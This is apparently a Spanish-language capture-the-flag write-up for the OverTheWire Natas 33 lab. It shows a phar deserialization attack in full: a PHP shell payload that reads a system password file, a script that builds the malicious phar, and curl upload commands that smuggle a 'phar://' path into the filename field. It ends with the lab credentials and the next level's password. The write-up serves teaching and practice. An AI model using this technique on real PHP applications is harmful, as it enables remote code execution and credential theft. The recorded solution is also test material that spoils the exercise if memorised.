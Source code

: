 # Natas33

#### URL: http://natas33.natas.labs.overthewire.org
#### Credenciales: natas33:2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ 

Existe un objeto Executor que ejecuta un archivo especificado por su atributo $filename con el interprete de php si su hash md5 es igual a $signature en el destructor:
``` php
<?php
            // graz XeR, the first to solve it! thanks for the feedback!
            // ~morla
            class Executor{
                private $filename=""; 
                private $signature='adeafbadbabec0dedabada55ba55d00d';
                private $init=False;

                function __construct(){
                    $this->filename=$_POST["filename"];
                    if(filesize($_FILES['uploadedfile']['tmp_name']) > 4096) {
                        echo "File is too big<br>";
                    }
                    else {
                        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], "/natas33/upload/" . $this->filename)) {
                            echo "The update has been uploaded to: /natas33/upload/$this->filename<br>";
                            echo "Firmware upgrad initialised.<br>";
                        }
                        else{
                            echo "There was an error uploading the file, please try again!<br>";
                        }
                    }
                }

                function __destruct(){
                    // upgrade firmware at the end of this script

                    // "The working directory in the script shutdown phase can be different with some SAPIs (e.g. Apache)."
                    chdir("/natas33/upload/");
                    if(md5_file($this->filename) == $this->signature){
                        echo "Congratulations! Running firmware update: $this->filename <br>";
                        passthru("php " . $this->filename);
                    }
                    else{
                        echo "Failur! MD5sum mismatch!<br>";
                    }
                }
            }
        ?>
```

No tenemos una funcion para deserializar pero la funcion md5_file es vulnerable a PHP Object Injection puesto que un parametro como 'phar://[phar_file].phar' deserializara el objeto dentro de Metadata e invocara el destructor:
``` php
if(md5_file($this->filename) == $this->signature){
```

Pasos para explotar la vunerabilidad:
- Crear un archivo php con la carga util
- Crear un archivo phar con un objeto Executor en los metadatos con su atributo $filename conteniendo el nombre de nuestro archivo php (no la ruta completa debido a que en `chdir("/natas33/upload/");` ya se encuentra en el directorio correcto)
- Subir ambos archivos
- Subir el archivo phar de nuevo pero esta vez con el nombre phar://shell.phar para provocar la deserializacion

Creamos un archivo php malicioso
``` shell.php
<?php echo shell_exec('cat /etc/natas_webpass/natas34'); ?>
```

Subimos el archivo
```
curl -u natas33:2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ http://natas33.natas.labs.overthewire.org/ -F uploadedfile=@/home/kalcast/Laboratorio/shell.phar -F MAX_FILE_SIZE=4096 -F filename=shell.php
```

Creamos el archivo phar
``` php
// phar_template.php
 <?php
 // payload.php
 // Compile with: php --define phar.readonly=0 payload.php


class Executor                                  // <- Replace with your own class/es
{
                private $filename="shell.php";
                private $signature=True;
                private $init=False;
}

$phar = new Phar('shell.phar');              // <- Compilation generates a 'shell.phar' file
$phar->startBuffering();
$phar->addFromString('test.txt','text');

// Signature bytes
$phar->setStub("<?php __HALT_COMPILER(); ?>");         // <- Replace if you have to bypass any verification

$object = new Executor();                      // <- Replace with your own class/es
$phar->setMetadata($object);
$phar->stopBuffering();
?>
```

Compilamos y subimos el archivo phar
```
php --define phar.readonly=0 phar_template.php && curl -u natas33:2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ http://natas33.natas.labs.overthewire.org/ -F uploadedfile=@/home/kalcast/Laboratorio/shell.phar -F MAX_FILE_SIZE=4096 -F filename=shell.phar
```

Ejecutar el phar y hacer el ataque de deserializacion
```
 php --define phar.readonly=0 phar_template.php && curl -u natas33:2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ http://natas33.natas.labs.overthewire.org/ -F uploadedfile=@/home/kalcast/Laboratorio/shell.phar -F MAX_FILE_SIZE=4096 -F filename=phar://shell.phar
...
Congratulations! Running firmware update: shell.php <br>j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY
```

`natas34:j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY`

